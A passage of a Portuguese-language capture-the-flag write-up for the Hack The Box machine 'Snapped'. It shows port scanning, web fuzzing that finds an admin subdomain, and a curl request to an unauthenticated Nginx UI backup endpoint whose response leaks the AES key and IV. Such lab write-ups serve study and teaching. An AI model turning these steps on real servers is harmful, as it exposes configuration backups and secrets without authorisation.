



# Snapped

**Difficulty: Hard** 

```
IP: 10.129.10.201
```

### nmap
```bash
nmap -p- -v 10.129.10.201

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
nmap -p 22,80 -sV -sC 10.129.10.201

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://snapped.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vou adicionar o snapped.htb no /etc/hosts

Acessando o `http://snapped.htb/`


### ffuf
```bash
ffuf -u http://snapped.htb/FUZZ -w /opt/seclists/Discovery/Web-Content/big.txt -mc all -e .php,.js,.txt,.bak,.zip,.html -fw 6

index.html              [Status: 200]
```

```bash
ffuf -u http://snapped.htb/ -H "Host: FUZZ.snapped.htb" -w /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -fw 4

admin                   [Status: 200]
```

Adicionando admin.snapped.htb no /etc/hosts é possível encontrar uma página de login.


Analisando o DevTools -> Network encontrei  `http://admin.snapped.htb/assets/index-DoHxQupa.js`. Acessando diretamente o diretório `/assets/`, percebi que o directory listing estava habilitado, expondo todos os arquivos estáticos do frontend.


Acessando o arquivo `version-BWPlJ0ga.js` foi possível identificar a versão exata do Nginx UI: 2.3.2

Nginx UI 2.3.2
Vulnerabilidade:
- CVE-2026-27944
O endpoint /api/backup é acessível sem autenticação e expõe chaves as chaves de criptografia AES-256, necessária para decriptar o backup no header `X-Backup-Security` da resposta.

```bash
curl -v http://admin.snapped.htb/api/backup
* Host admin.snapped.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.10.201
*   Trying 10.129.10.201:80...
* Connected to admin.snapped.htb (10.129.10.201) port 80
> GET /api/backup HTTP/1.1
> Host: admin.snapped.htb
> User-Agent: curl/8.5.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.24.0 (Ubuntu)
< Date: Sat, 30 May 2026 06:34:38 GMT
< Content-Type: application/zip
< Content-Length: 18306
< Connection: keep-alive
< Accept-Ranges: bytes
< Cache-Control: must-revalidate
< Content-Description: File Transfer
< Content-Disposition: attachment; filename=backup-20260530-023438.zip
< Content-Transfer-Encoding: binary
< Expires: 0
< Last-Modified: Sat, 30 May 2026 06:34:38 GMT
< Pragma: public
< Request-Id: b27ce04b-9887-4300-83e9-f74cecc98d10
< X-Backup-Security: fbJ0vU/QC0AsuAnCEyZuHDqqb5/y4yVVQRkMq9sO55o=:BbtGK1VXtWNQ2jOCR5sTBQ==
< 
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
* Failure writing output to destination
* Closing connection
```

O servidor retornou um arquivo ZIP com o backup. o Header `X-Backup-Security` expõe a chave AES-256 e o IV necessários para decriptar o backup

